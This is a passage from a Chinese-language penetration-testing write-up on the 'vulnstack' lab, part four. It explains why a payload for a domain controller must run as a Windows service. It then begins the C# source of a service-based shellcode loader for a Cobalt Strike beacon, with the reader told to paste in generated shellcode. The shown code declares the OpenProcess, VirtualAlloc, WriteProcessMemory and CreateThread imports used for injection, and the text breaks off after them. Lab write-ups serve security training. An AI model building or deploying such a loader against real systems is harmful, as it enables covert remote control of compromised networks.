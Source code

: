 

这是因为windows服务与常规应用程序的运行方式不同，windows服务需要与服务控制管理器(SCM)交互，因此我们需使用VisualStuido创建一个windows服务，并且需要知道目标系统支持的.NET版本，此处域控支持的.net版本是3.5及以下

![image-20231221162307517](vulnstack靶场系列四/image-20231221162307517.png)



以下是windows服务类型的beacon代码，你只需填上CS生成的shellcode即可

```c#
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Diagnostics;
using System.Linq;
using System.ServiceProcess;
using System.Text;
using System.Runtime.InteropServices;

namespace SharpService_shellcodeloader
{

    public partial class Service1 : ServiceBase
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
            byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
           IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

```